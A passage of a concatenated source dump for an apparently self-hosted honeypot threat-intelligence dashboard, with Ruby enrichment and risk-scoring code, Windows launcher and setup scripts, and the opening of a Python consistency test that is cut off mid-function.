  # String, so accept both (a body that is neither is treated as "no data").
  def coerce_body(obj)
    return obj unless obj.is_a?(String)

    JSON.parse(obj)
  rescue JSON::ParserError
    nil
  end

  def hash_at(obj, *keys)
    cur = coerce_body(obj)
    keys.each do |k|
      cur = cur.to_hash if cur.respond_to?(:to_hash)
      return nil unless cur.is_a?(Hash)

      cur = cur[k]
    end
    cur = cur.to_hash if cur.respond_to?(:to_hash)
    cur.is_a?(Hash) ? cur : nil
  end

  def to_i_or_nil(v)
    return nil if v.nil?

    Integer(v)
  rescue ArgumentError, TypeError
    nil
  end

  def compact(h)
    h.reject { |_, v| v.nil? || (v.respond_to?(:empty?) && v.empty?) }
  end

  def deep_copy(obj)
    Marshal.load(Marshal.dump(obj))
  end

  # -------------------------------------------------------------- classify
  def classify(event)
    ip        = event.get('[source][ip]').to_s
    simulated = event.get('[@metadata][simulated]') == 'true'
    pub       = public_ip?(ip)
    mode =
      if simulated then 'demo'
      elsif pub    then 'live'
      else 'skip'
      end
    event.set('[source][public]', pub)
    event.set('[@metadata][ti_ip]', ip)
    event.set('[@metadata][ti_family]', ip.include?(':') ? 'IPv6' : 'IPv4')
    event.set('[@metadata][ti_mode]', mode)
    event.set('[ti][verdict]', 'not_applicable') if mode == 'skip'
  end

  # ----------------------------------------------------------------- cache
  def cache_get(event)
    ip  = event.get('[@metadata][ti_ip]')
    now = Time.now.to_f
    hit = LOCK.synchronize do
      e = CACHE[ip]
      e && e[:exp] > now ? e : nil
    end
    if hit
      event.set('[ti]', deep_copy(hit[:ti]))
      event.set('[@metadata][ti_cache_hit]', 'true')
    else
      event.set('[@metadata][ti_cache_hit]', 'false')
    end
  end

  # positive results live TI_CACHE_TTL_HOURS; failures/unknowns only 10 minutes so an
  # API outage is retried soon without hammering the provider.
  def cache_put(store, key, value, positive)
    ttl = positive ? env_int('TI_CACHE_TTL_HOURS', 24) * 3600 : 600
    LOCK.synchronize do
      if store.size > env_int('TI_CACHE_MAX', 50_000)
        now = Time.now.to_f
        store.delete_if { |_, v| v[:exp] <= now }
        store.clear if store.size > env_int('TI_CACHE_MAX', 50_000)
      end
      store[key] = { ti: deep_copy(value), exp: Time.now.to_f + ttl }
    end
  end

  # ---------------------------------------------------------------- budget
  # Sets [@metadata][<provider>_ok] to "true"/"false".  A provider is usable when
  # its API key is set, the gating rule passes and daily/per-minute quota remains.
  def budget(event, provider)
    cfg = PROVIDERS.fetch(provider)
    ok  = key_present?(provider) && gate?(event, provider) && take_token(cfg)
    event.set("[@metadata][#{provider}_ok]", ok ? 'true' : 'false')
  end

  # VirusTotal's free tier is tiny, so IP lookups are only spent on IPs that
  # AbuseIPDB did not already clear (or when AbuseIPDB is unavailable).
  def gate?(event, provider)
    return true unless provider == 'vt'

    data  = hash_at(event.get('[@metadata][abuse_raw]'), 'data')
    score = data && to_i_or_nil(data['abuseConfidenceScore'])
    score.nil? || score >= env_int('VT_MIN_ABUSE_SCORE', 25)
  end

  def take_token(cfg)
    now = Time.now
    day = now.utc.strftime('%Y-%m-%d')
    LOCK.synchronize do
      b = (BUDGET[cfg[:bucket]] ||= { day: day, count: 0, stamps: [] })
      if b[:day] != day
        b[:day] = day
        b[:count] = 0
      end
      return false if b[:count] >= env_int(*cfg[:daily])

      if cfg[:per_min]
        cutoff = now.to_f - 60
        b[:stamps].reject! { |t| t < cutoff }
        return false if b[:stamps].size >= env_int(*cfg[:per_min])

        b[:stamps] << now.to_f
      end
      b[:count] += 1
      true
    end
  end

  # ----------------------------------------------------------------- merge
  def merge(event)
    ip = event.get('[@metadata][ti_ip]')
    ti = {}
    providers = []

    if (d = hash_at(event.get('[@metadata][abuse_raw]'), 'data'))
      providers << 'abuseipdb'
      ti['abuseipdb'] = compact(
        'confidence_score'  => to_i_or_nil(d['abuseConfidenceScore']),
        'total_reports'     => to_i_or_nil(d['totalReports']),
        'distinct_reporters' => to_i_or_nil(d['numDistinctUsers']),
        'usage_type'        => d['usageType'],
        'isp'               => d['isp'],
        'domain'            => d['domain'],
        'is_tor'            => d['isTor'],
        'is_whitelisted'    => d['isWhitelisted'],
        'last_reported_at'  => d['lastReportedAt']
      )
    end

    if (o = hash_at(event.get('[@metadata][otx_raw]'))) && hash_at(o, 'pulse_info')
      providers << 'otx'
      pulses = Array(o['pulse_info']['pulses']).select { |p| p.is_a?(Hash) }
      fams = pulses.flat_map { |p| Array(p['malware_families']) }
                   .map { |m| m.is_a?(Hash) ? (m['display_name'] || m['id']) : m }
      ti['otx'] = compact(
        'pulse_count'      => to_i_or_nil(o['pulse_info']['count']) || pulses.size,
        'pulse_names'      => pulses.first(5).map { |p| p['name'] }.compact,
        'tags'             => pulses.flat_map { |p| Array(p['tags']) }.map(&:to_s).reject(&:empty?).uniq.first(20),
        'malware_families' => fams.compact.map(&:to_s).uniq.first(10),
        'reputation'       => to_i_or_nil(o['reputation'])
      )
    end

    if (a = hash_at(event.get('[@metadata][vt_raw]'), 'data', 'attributes'))
      providers << 'virustotal'
      st = hash_at(a, 'last_analysis_stats') || {}
      ti['virustotal'] = compact(
        'malicious'  => to_i_or_nil(st['malicious']),
        'suspicious' => to_i_or_nil(st['suspicious']),
        'harmless'   => to_i_or_nil(st['harmless']),
        'undetected' => to_i_or_nil(st['undetected']),
        'reputation' => to_i_or_nil(a['reputation']),
        'as_owner'   => a['as_owner'],
        'country'    => a['country'],
        'tags'       => Array(a['tags']).map(&:to_s)
      )
    end

    finish(ti, providers)
    cache_put(CACHE, ip, ti, !providers.empty?)
    event.set('[ti]', deep_copy(ti))
  end

  def finish(ti, providers)
    ti['providers']   = providers
    ti['verdict']     = providers.empty? ? 'unknown' : verdict(ti)
    ti['score']       = ti_score(ti)
    ti['enriched_at'] = Time.now.utc.iso8601
    ti
  end

  def ti_score(ti)
    a = ti.dig('abuseipdb', 'confidence_score').to_i
    v = [ti.dig('virustotal', 'malicious').to_i * 10, 100].min
    o = [ti.dig('otx', 'pulse_count').to_i * 10, 100].min
    [a, v, o].max
  end

  # malicious >= 75, suspicious >= 25, otherwise clean.  Whitelisted IPs and
  # CDN / search-engine ranges are 'benign' regardless of score (false-positive
  # reduction: legitimate scanners must not be blocklisted).
  def verdict(ti)
    ab = ti['abuseipdb'] || {}
    return 'benign' if ab['is_whitelisted'] == true || BENIGN_USAGE.include?(ab['usage_type'])

    s = ti_score(ti)
    if s >= 75 then 'malicious'
    elsif s >= 25 then 'suspicious'
    else 'clean'
    end
  end

  # ------------------------------------------------------------------ demo
  # Deterministic SYNTHETIC enrichment so dashboards populate for simulated
  # traffic without spending API quota or labelling real IPs. Always flagged.
  def demo(event)
    ip = event.get('[@metadata][ti_ip]').to_s
    h  = Digest::MD5.hexdigest(ip).to_i(16)
    tier = h % 10
    lo, hi, tags_n =
      case tier
      when 0..3 then [75, 100, 3]
      when 4..6 then [25, 74, 2]
      when 7..8 then [0, 24, 0]
      else           [0, 10, 0]
      end
    score = lo + ((h >> 8) % (hi - lo + 1))
    tags = DEMO_TAGS.rotate((h >> 20) % DEMO_TAGS.size).first(tags_n)
    ti = {
      'abuseipdb' => compact(
        'confidence_score' => score,
        'total_reports'    => (h >> 12) % 900,
        'usage_type'       => tier == 9 ? 'Content Delivery Network' : 'Data Center/Web Hosting/Transit',
        'is_tor'           => tags.include?('tor-exit')
      ),
      'otx' => compact('pulse_count' => tags_n * 2, 'tags' => tags)
    }
    finish(ti, ['demo-synthetic'])
    ti['simulated'] = true
    event.set('[ti]', ti)
  end

  def demo_file(event)
    sha = event.get('[cowrie][shasum]').to_s
    h   = Digest::MD5.hexdigest(sha).to_i(16)
    mal = 20 + (h % 45)
    event.set('[ti][file]', {
                'found' => true, 'malicious' => mal, 'suspicious' => h % 4, 'undetected' => 70 - mal,
                'threat_label' => %w[trojan.mirai/gafgyt trojan.xmrig/miner backdoor.tsunami][h % 3],
                'type_description' => 'ELF', 'verdict' => 'malicious', 'simulated' => true
              })
  end

  # ------------------------------------------------------------ file hashes
  def sha256?(s)
    s.to_s.match?(/\A[0-9a-fA-F]{64}\z/)
  end

  def file_cache_get(event)
    sha = event.get('[cowrie][shasum]').to_s.downcase
    unless sha256?(sha)
      event.set('[@metadata][file_cache_hit]', 'true') # nothing to look up
      return
    end
    now = Time.now.to_f
    hit = LOCK.synchronize do
      e = FILE_CACHE[sha]
      e && e[:exp] > now ? e : nil
    end
    event.set('[@metadata][file_cache_hit]', hit ? 'true' : 'false')
    event.set('[ti][file]', deep_copy(hit[:ti])) if hit
  end

  def file_merge(event)
    sha = event.get('[cowrie][shasum]').to_s.downcase
    a   = hash_at(event.get('[@metadata][vtfile_raw]'), 'data', 'attributes')
    file =
      if a
        st = hash_at(a, 'last_analysis_stats') || {}
        mal = to_i_or_nil(st['malicious']) || 0
        compact(
          'found' => true, 'malicious' => mal,
          'suspicious' => to_i_or_nil(st['suspicious']), 'undetected' => to_i_or_nil(st['undetected']),
          'threat_label' => hash_at(a, 'popular_threat_classification').to_h['suggested_threat_label'],
          'type_description' => a['type_description'], 'size' => to_i_or_nil(a['size']),
          'names' => Array(a['names']).first(3),
          'verdict' => mal >= 5 ? 'malicious' : (mal >= 1 ? 'suspicious' : 'clean')
        )
      else
        { 'found' => false, 'verdict' => 'unknown' }
      end
    cache_put(FILE_CACHE, sha, file, file['found'])
    event.set('[ti][file]', file)
  end

  # ------------------------------------------------------------------ risk
  # event.risk_score = round(0.6 * severity + 0.4 * ti_score), capped at 20 for
  # benign sources.  ti_score = max(AbuseIPDB confidence, 10*VT detections,
  # 10*OTX pulses, 10*VT file detections).
  def risk(event)
    action = event.get('[event][action]').to_s
    sev    = SEVERITY.fetch(action, 10)
    ti     = event.get('[ti][score]').to_i
    ti     = [ti, [event.get('[ti][file][malicious]').to_i * 10, 100].min].max
    score  = (0.6 * sev + 0.4 * ti).round
    score  = [score, 20].min if event.get('[ti][verdict]') == 'benign'
    level  =
      if score >= 80 then 'critical'
      elsif score >= 60 then 'high'
      elsif score >= 35 then 'medium'
      else 'low'
      end
    event.set('[event][severity]', sev)
    event.set('[event][risk_score]', score)
    event.set('[event][risk_level]', level)
  end
end
------------------------------------------------------------------------------
END OF FILE: logstash/ruby/ti_lib.rb
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: report.bat   (11 lines)
------------------------------------------------------------------------------
@echo off
setlocal
cd /d "%~dp0"
rem Usage: report.bat                (last 24 h, includes simulated demo data)
rem        report.bat real           (exclude simulated events)
if /i "%1"=="real" (
  powershell.exe -NoProfile -ExecutionPolicy Bypass -File "%~dp0scripts\report.ps1" -ExcludeSimulated
) else (
  powershell.exe -NoProfile -ExecutionPolicy Bypass -File "%~dp0scripts\report.ps1"
)
pause
------------------------------------------------------------------------------
END OF FILE: report.bat
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: reset.bat   (14 lines)
------------------------------------------------------------------------------
@echo off
setlocal
cd /d "%~dp0"
echo WARNING: this deletes ALL collected data (Elasticsearch, honeypot logs, caches).
echo Your .env (passwords / API keys) and reports folder are kept.
set /p CONFIRM=Type YES to continue: 
if /i not "%CONFIRM%"=="YES" (
  echo Cancelled.
  pause
  exit /b 1
)
docker compose --profile tools down -v
echo Done. Run start.bat to build a fresh stack.
pause
------------------------------------------------------------------------------
END OF FILE: reset.bat
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: scripts/live-test.ps1   (25 lines)
------------------------------------------------------------------------------
# live-test.ps1 - proves the honeypot captures a REAL connection.
# Opens a TCP connection to the Cowrie SSH port, reads the banner and sends a client banner.
# (Interactive login test: run  ssh -p 2222 root@localhost  and type any password.)
param([int]$Port = 2222)
$ErrorActionPreference = 'Continue'
try {
    $client = New-Object System.Net.Sockets.TcpClient
    $client.Connect('127.0.0.1', $Port)
    $stream = $client.GetStream()
    $stream.ReadTimeout = 5000
    $buf = New-Object byte[] 256
    $n = $stream.Read($buf, 0, 256)
    $banner = [System.Text.Encoding]::ASCII.GetString($buf, 0, $n).Trim()
    Write-Host "Honeypot banner received: $banner" -ForegroundColor Green
    $hello = [System.Text.Encoding]::ASCII.GetBytes("SSH-2.0-TI-LiveTest_1.0`r`n")
    $stream.Write($hello, 0, $hello.Length)
    Start-Sleep -Seconds 1
    $client.Close()
    Write-Host 'Sent a client banner and closed. In ~15 s look in Kibana Discover for event.action : "cowrie.client.version".'
    Write-Host 'NOTE: on Docker Desktop, connections from this PC appear with a private Docker gateway IP (172.x / 192.168.65.x),'
    Write-Host '      so GeoIP/threat-intel is skipped (ti.verdict = not_applicable). Internet attackers show their real public IP.'
} catch {
    Write-Host "Could not connect to localhost:$Port - is the stack running (start.bat / status.bat)?  $_" -ForegroundColor Red
    exit 1
}
------------------------------------------------------------------------------
END OF FILE: scripts/live-test.ps1
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: scripts/report.ps1   (18 lines)
------------------------------------------------------------------------------
# report.ps1 - generate the threat-intelligence report now and open it.
param([double]$Hours = 24, [switch]$ExcludeSimulated, [switch]$NoOpen)
$ErrorActionPreference = 'Continue'
$root = Split-Path -Parent $PSScriptRoot
Set-Location $root

if (-not (Test-Path (Join-Path $root '.env'))) { Write-Host 'Run start.bat first.' -ForegroundColor Red; exit 1 }
$extra = @()
if ($ExcludeSimulated) { $extra += '--exclude-simulated' }

docker compose --profile tools run --rm tools python generate_report.py --hours $Hours --out /reports @extra
if ($LASTEXITCODE -ne 0) { Write-Host 'Report generation failed - is the stack running (status.bat) and does it contain data (simulate.bat)?' -ForegroundColor Red; exit 1 }

$latest = Join-Path $root 'reports\latest.html'
Write-Host ''
Write-Host "Reports are in: $(Join-Path $root 'reports')" -ForegroundColor Green
if ((-not $NoOpen) -and (Test-Path $latest)) { Start-Process $latest }
exit 0
------------------------------------------------------------------------------
END OF FILE: scripts/report.ps1
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: scripts/setup.ps1   (68 lines)
------------------------------------------------------------------------------
# setup.ps1 - creates .env with cryptographically random secrets and renders the
# ElastAlert2 config. Idempotent: existing values are never overwritten.
# Compatible with Windows PowerShell 5.1 (built into Windows 10/11 and Server 2016+).
$ErrorActionPreference = 'Stop'
$root = Split-Path -Parent $PSScriptRoot
Set-Location $root

$utf8NoBom = New-Object System.Text.UTF8Encoding($false)

function New-Secret([int]$Length) {
    $chars = 'abcdefghijkmnopqrstuvwxyzABCDEFGHJKLMNPQRSTUVWXYZ23456789'
    $bytes = New-Object byte[] $Length
    $rng = [System.Security.Cryptography.RandomNumberGenerator]::Create()
    $rng.GetBytes($bytes)
    $rng.Dispose()
    $sb = New-Object System.Text.StringBuilder
    foreach ($b in $bytes) { [void]$sb.Append($chars[$b % $chars.Length]) }
    return $sb.ToString()
}

# name -> length (Kibana encryption keys must be >= 32 characters)
$secrets = @{
    'ELASTIC_PASSWORD'         = 24
    'KIBANA_SYSTEM_PASSWORD'   = 24
    'LOGSTASH_WRITER_PASSWORD' = 24
    'TI_READER_PASSWORD'       = 24
    'ELASTALERT_PASSWORD'      = 24
    'KIBANA_SECURITY_KEY'      = 40
    'KIBANA_ENCRYPTION_KEY'    = 40
    'KIBANA_REPORTING_KEY'     = 40
}

$envPath = Join-Path $root '.env'
$examplePath = Join-Path $root '.env.example'
if (Test-Path $envPath) { $source = $envPath; $created = $false } else { $source = $examplePath; $created = $true }

$lines = [System.IO.File]::ReadAllLines($source)
$out = New-Object System.Collections.Generic.List[string]
$filled = 0
foreach ($line in $lines) {
    $newLine = $line
    if ($line -match '^([A-Z_]+)=(.*)$') {
        $name = $Matches[1]
        $value = $Matches[2].Trim()
        if ($secrets.ContainsKey($name) -and $value -eq '') {
            $newLine = $name + '=' + (New-Secret $secrets[$name])
            $filled++
        }
    }
    $out.Add($newLine)
}
if ($created -or $filled -gt 0) {
    [System.IO.File]::WriteAllText($envPath, (($out -join "`n") + "`n"), $utf8NoBom)
    Write-Host "[setup] .env written ($filled secrets generated). Keep this file private." -ForegroundColor Green
} else {
    Write-Host "[setup] .env already complete - left unchanged."
}

# Read ELASTALERT_PASSWORD back from .env and render the ElastAlert2 config.
$alertPw = $null
foreach ($line in [System.IO.File]::ReadAllLines($envPath)) {
    if ($line -match '^ELASTALERT_PASSWORD=(.+)$') { $alertPw = $Matches[1].Trim() }
}
if (-not $alertPw) { throw 'ELASTALERT_PASSWORD missing from .env' }
$template = [System.IO.File]::ReadAllText((Join-Path $root 'elastalert\config.yaml.template'))
$rendered = $template.Replace('__ES_PASSWORD__', $alertPw).Replace("`r`n", "`n")
[System.IO.File]::WriteAllText((Join-Path $root 'elastalert\config.yaml'), $rendered, $utf8NoBom)
Write-Host "[setup] elastalert\config.yaml rendered."
------------------------------------------------------------------------------
END OF FILE: scripts/setup.ps1
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: scripts/setup.sh   (40 lines)
------------------------------------------------------------------------------
#!/usr/bin/env bash
# setup.sh - Linux/macOS equivalent of scripts/setup.ps1.
# Use it to run the stack on a Linux server / VPS (the recommended way to capture REAL
# internet attacks, and the fallback for Windows versions that cannot run Docker Desktop).
#
#   ./scripts/setup.sh && docker compose up -d --build
#
# Creates .env with random secrets (existing values are never overwritten) and renders
# elastalert/config.yaml.  Needs: bash, sed, tr, head, grep, cut.
set -euo pipefail
cd "$(dirname "$0")/.."

gen() {   # gen <length>  -> random [A-Za-z0-9] string without look-alike characters
  local out
  out=$(LC_ALL=C tr -dc 'abcdefghijkmnopqrstuvwxyzABCDEFGHJKLMNPQRSTUVWXYZ23456789' </dev/urandom | head -c "$1" || true)
  printf '%s' "$out"
}

# name:length   (Kibana encryption keys must be >= 32 characters)
SECRETS="ELASTIC_PASSWORD:24 KIBANA_SYSTEM_PASSWORD:24 LOGSTASH_WRITER_PASSWORD:24 TI_READER_PASSWORD:24 ELASTALERT_PASSWORD:24 KIBANA_SECURITY_KEY:40 KIBANA_ENCRYPTION_KEY:40 KIBANA_REPORTING_KEY:40"

[ -f .env ] || cp .env.example .env
filled=0
for item in $SECRETS; do
  name="${item%%:*}"; len="${item##*:}"
  if grep -qE "^${name}=$" .env; then
    sed "s|^${name}=\$|${name}=$(gen "$len")|" .env > .env.tmp && mv .env.tmp .env
    filled=$((filled + 1))
  fi
done
chmod 600 .env
echo "[setup] .env ready ($filled secrets generated). Keep this file private."

pw=$(grep -E '^ELASTALERT_PASSWORD=' .env | head -n1 | cut -d= -f2-)
[ -n "$pw" ] || { echo "ELASTALERT_PASSWORD missing from .env" >&2; exit 1; }
sed "s|__ES_PASSWORD__|${pw}|" elastalert/config.yaml.template > elastalert/config.yaml
chmod 600 elastalert/config.yaml
mkdir -p reports
echo "[setup] elastalert/config.yaml rendered."
echo "[setup] next:  docker compose up -d --build     (Kibana: http://localhost:5601, user 'elastic', password in .env)"
------------------------------------------------------------------------------
END OF FILE: scripts/setup.sh
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: scripts/simulate.ps1   (19 lines)
------------------------------------------------------------------------------
# simulate.ps1 - writes simulated Cowrie attack events into the shared log volume.
param([int]$Events = 3000, [double]$Hours = 24, [switch]$Live)
$ErrorActionPreference = 'Continue'
$root = Split-Path -Parent $PSScriptRoot
Set-Location $root

if (-not (Test-Path (Join-Path $root '.env'))) { Write-Host 'Run start.bat first (it creates .env and starts the stack).' -ForegroundColor Red; exit 1 }

if ($Live) {
    Write-Host 'Live simulation running - open the Kibana dashboard. Press Ctrl+C to stop.' -ForegroundColor Cyan
    docker compose --profile tools run --rm tools python simulate_attacks.py --live --rate 4
} else {
    docker compose --profile tools run --rm tools python simulate_attacks.py --events $Events --hours $Hours
    if ($LASTEXITCODE -eq 0) {
        Write-Host ''
        Write-Host 'Done. Filebeat -> Logstash -> Elasticsearch takes ~10-30 seconds. Refresh the Kibana dashboard (time range: Last 24 hours).' -ForegroundColor Green
    }
}
exit $LASTEXITCODE
------------------------------------------------------------------------------
END OF FILE: scripts/simulate.ps1
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: scripts/start.ps1   (94 lines)
------------------------------------------------------------------------------
# start.ps1 - one-command launcher for the Threat Intelligence Dashboard (Windows).
param([switch]$NoBrowser)
$ErrorActionPreference = 'Continue'
$root = Split-Path -Parent $PSScriptRoot
Set-Location $root

function Fail([string]$msg) {
    Write-Host ''
    Write-Host "ERROR: $msg" -ForegroundColor Red
    exit 1
}
function Test-Cmd([string]$cmdline) {
    & cmd.exe /c "$cmdline >nul 2>&1"
    return ($LASTEXITCODE -eq 0)
}

Write-Host '=== Threat Intelligence Dashboard ===' -ForegroundColor Cyan

# ---- 1. prerequisites -------------------------------------------------------
if (-not (Get-Command docker -ErrorAction SilentlyContinue)) {
    Fail ("Docker was not found.`nInstall Docker Desktop (https://www.docker.com/products/docker-desktop/), reboot, start it, then run start.bat again.`nSee HOW_TO_RUN.txt section 2.")
}
if (-not (Test-Cmd 'docker info')) {
    Fail ("Docker is installed but its engine is not running.`nStart 'Docker Desktop', wait until it says 'Engine running', then run start.bat again.")
}
if (-not (Test-Cmd 'docker compose version')) {
    Fail ("'docker compose' (v2) is not available. Update Docker Desktop to a current version.")
}
try {
    $ramGb = [math]::Round((Get-CimInstance Win32_ComputerSystem).TotalPhysicalMemory / 1GB, 1)
    if ($ramGb -lt 8) { Write-Host "WARNING: only $ramGb GB RAM detected. The ELK stack needs ~5 GB; 8 GB+ recommended (see HOW_TO_RUN.txt, Troubleshooting)." -ForegroundColor Yellow }
} catch { }
try {
    $listeners = [System.Net.NetworkInformation.IPGlobalProperties]::GetIPGlobalProperties().GetActiveTcpListeners() | ForEach-Object { $_.Port }
    foreach ($p in 2222, 2223, 5601, 9200) {
        if ($listeners -contains $p) { Write-Host "WARNING: TCP port $p is already in use on this PC - change it in .env (COWRIE_*_PORT) or stop the other program." -ForegroundColor Yellow }
    }
} catch { }

# ---- 2. configuration -------------------------------------------------------
& "$PSScriptRoot\setup.ps1"
if ($LASTEXITCODE -ne 0 -and $null -ne $LASTEXITCODE) { Fail 'setup failed' }
if (-not (Test-Path (Join-Path $root 'reports'))) { New-Item -ItemType Directory -Path (Join-Path $root 'reports') | Out-Null }

# ---- 3. build + start -------------------------------------------------------
Write-Host '[start] Pulling images and starting containers (first run downloads several GB, please wait)...' -ForegroundColor Cyan
docker compose up -d --build
if ($LASTEXITCODE -ne 0) {
    Fail ("docker compose failed (see messages above). Common causes: no internet access to docker.elastic.co / Docker Hub, or not enough memory given to Docker Desktop.")
}

# ---- 4. wait for Kibana -----------------------------------------------------
Write-Host '[start] Waiting for Kibana (this can take 2-4 minutes on first start)...'
$ready = $false
$deadline = (Get-Date).AddMinutes(12)
while ((Get-Date) -lt $deadline) {
    try {
        $r = Invoke-WebRequest -Uri 'http://localhost:5601/api/status' -UseBasicParsing -TimeoutSec 5
        if ($r.Content -match '"level":"available"') { $ready = $true; break }
    } catch { }
    Start-Sleep -Seconds 5
    Write-Host '.' -NoNewline
}
Write-Host ''
if (-not $ready) {
    Write-Host 'Kibana did not become ready in 12 minutes. Run status.bat and logs.bat to investigate (HOW_TO_RUN.txt, Troubleshooting).' -ForegroundColor Yellow
    exit 1
}

# ---- 5. dashboard import status ---------------------------------------------
$initDeadline = (Get-Date).AddMinutes(3)
$initState = ''
while ((Get-Date) -lt $initDeadline) {
    $initState = (docker inspect -f '{{.State.Status}}:{{.State.ExitCode}}' ti-kibana-init 2>$null)
    if ($initState -like 'exited:*') { break }
    Start-Sleep -Seconds 3
}
if ($initState -eq 'exited:0') { Write-Host '[start] Dashboard imported: "Threat Intelligence - SOC Overview"' -ForegroundColor Green }
else { Write-Host "[start] Dashboard import state: $initState  (run: docker compose logs kibana-init)" -ForegroundColor Yellow }

$elasticPw = ''
foreach ($line in [System.IO.File]::ReadAllLines((Join-Path $root '.env'))) {
    if ($line -match '^ELASTIC_PASSWORD=(.+)$') { $elasticPw = $Matches[1].Trim() }
}
Write-Host ''
Write-Host '=============================================================' -ForegroundColor Green
Write-Host ' Kibana    : http://localhost:5601' -ForegroundColor Green
Write-Host ' Login     : elastic / (password is in the .env file: ELASTIC_PASSWORD)' -ForegroundColor Green
Write-Host ' Dashboard : Analytics > Dashboards > "Threat Intelligence - SOC Overview"' -ForegroundColor Green
Write-Host ' Honeypot  : SSH localhost:2222   Telnet localhost:2223' -ForegroundColor Green
Write-Host ' Next      : run simulate.bat to load demo attacks, then report.bat' -ForegroundColor Green
Write-Host '=============================================================' -ForegroundColor Green
if (-not $NoBrowser) { Start-Process 'http://localhost:5601' }
exit 0
------------------------------------------------------------------------------
END OF FILE: scripts/start.ps1
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: scripts/status.ps1   (41 lines)
------------------------------------------------------------------------------
# status.ps1 - quick health check: containers, indexed event count, newest event.
# Compatible with Windows PowerShell 5.1.
$ErrorActionPreference = 'Continue'
$root = Split-Path -Parent $PSScriptRoot
Set-Location $root

Write-Host '=== Containers ===' -ForegroundColor Cyan
docker compose ps -a

$envPath = Join-Path $root '.env'
if (-not (Test-Path $envPath)) { Write-Host 'No .env yet - run start.bat first.' -ForegroundColor Yellow; exit 0 }

$pw = ''
foreach ($line in [System.IO.File]::ReadAllLines($envPath)) {
    if ($line -match '^ELASTIC_PASSWORD=(.+)$') { $pw = $Matches[1].Trim() }
}
if (-not $pw) { Write-Host 'ELASTIC_PASSWORD is empty in .env' -ForegroundColor Yellow; exit 0 }

$token = [Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("elastic:$pw"))
$headers = @{ Authorization = "Basic $token" }

Write-Host ''
Write-Host '=== Elasticsearch ===' -ForegroundColor Cyan
try {
    $health = Invoke-RestMethod -Uri 'http://localhost:9200/_cluster/health' -Headers $headers -TimeoutSec 10
    Write-Host ("Cluster status : " + $health.status)
    $count = Invoke-RestMethod -Uri 'http://localhost:9200/honeypot-cowrie-*/_count' -Headers $headers -TimeoutSec 10
    Write-Host ("Indexed events : " + $count.count)
    $body = '{"size":1,"sort":[{"@timestamp":"desc"}],"_source":["@timestamp","source.ip","event.action"]}'
    $latest = Invoke-RestMethod -Uri 'http://localhost:9200/honeypot-cowrie-*/_search' -Headers $headers -Method Post -ContentType 'application/json' -Body $body -TimeoutSec 10
    if ($latest.hits.hits.Count -gt 0) {
        $src = $latest.hits.hits[0]._source
        Write-Host ("Newest event   : " + $src.'@timestamp' + "  " + $src.event.action)
    } else {
        Write-Host 'Newest event   : (none yet - run simulate.bat or wait for attackers)'
    }
} catch {
    Write-Host ("Elasticsearch is not reachable yet: " + $_.Exception.Message) -ForegroundColor Yellow
    Write-Host 'If the stack was just started, wait 1-2 minutes and run status.bat again.'
}
exit 0
------------------------------------------------------------------------------
END OF FILE: scripts/status.ps1
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: simulate.bat   (11 lines)
------------------------------------------------------------------------------
@echo off
setlocal
cd /d "%~dp0"
rem Usage: simulate.bat            (3000 events over the last 24 h)
rem        simulate.bat live       (continuous real-time stream)
if /i "%1"=="live" (
  powershell.exe -NoProfile -ExecutionPolicy Bypass -File "%~dp0scripts\simulate.ps1" -Live
) else (
  powershell.exe -NoProfile -ExecutionPolicy Bypass -File "%~dp0scripts\simulate.ps1"
)
pause
------------------------------------------------------------------------------
END OF FILE: simulate.bat
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: start.bat   (11 lines)
------------------------------------------------------------------------------
@echo off
setlocal
cd /d "%~dp0"
powershell.exe -NoProfile -ExecutionPolicy Bypass -File "%~dp0scripts\start.ps1" %*
set RC=%ERRORLEVEL%
if not "%RC%"=="0" (
  echo.
  echo Start failed with exit code %RC%. See HOW_TO_RUN.txt - Troubleshooting.
)
pause
exit /b %RC%
------------------------------------------------------------------------------
END OF FILE: start.bat
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: status.bat   (5 lines)
------------------------------------------------------------------------------
@echo off
setlocal
cd /d "%~dp0"
powershell.exe -NoProfile -ExecutionPolicy Bypass -File "%~dp0scripts\status.ps1"
pause
------------------------------------------------------------------------------
END OF FILE: status.bat
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: stop.bat   (6 lines)
------------------------------------------------------------------------------
@echo off
setlocal
cd /d "%~dp0"
echo Stopping containers (your data is kept). Use reset.bat to delete all data.
docker compose down
pause
------------------------------------------------------------------------------
END OF FILE: stop.bat
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: tests/test_project.py   (503 lines)
------------------------------------------------------------------------------
"""
Project-wide consistency tests - they catch the "works on my machine" mistakes that unit
tests miss: a variable used by docker-compose but never generated by setup.ps1, a dashboard
panel that aggregates a field the index template does not define, a Logstash call to a Ruby
method that does not exist, a honeypot container that is accidentally attached to the ELK
network, a secret pasted into a config file ...

Run (from the project root):   python -m unittest discover -s tests -v
Requires: PyYAML (pip install pyyaml)   - no Docker / Elasticsearch needed.
"""
import json
import os
import random
import re
import subprocess
import sys
import tempfile
import unittest
from datetime import datetime, timezone
from pathlib import Path

import yaml

ROOT = Path(__file__).resolve().parent.parent
sys.path.insert(0, str(ROOT / "tools"))

import kibana_objects  # noqa: E402
import simulate_attacks as sim  # noqa: E402

def read(rel):
    return (ROOT / rel).read_text(encoding="utf-8")

def compose():
    return yaml.safe_load(read("docker-compose.yml"))

def env_example_keys():
    keys = {}
    for line in read(".env.example").splitlines():
        m = re.match(r"^([A-Z][A-Z0-9_]*)=(.*)$", line)
        if m:
            keys[m.group(1)] = m.group(2)
    return keys

def template_fields():
    """Flatten the ES index template mapping -> {'source.ip': 'ip', ...}"""
    mapping = json.loads(read("elasticsearch/index-template.json"))["template"]["mappings"]["properties"]
    out = {}

    def walk(props, prefix=""):
        for name, spec in props.items():
            if "properties" in spec:
                walk(spec["properties"], prefix + name + ".")
            else:
                out[prefix + name] = spec.get("type")

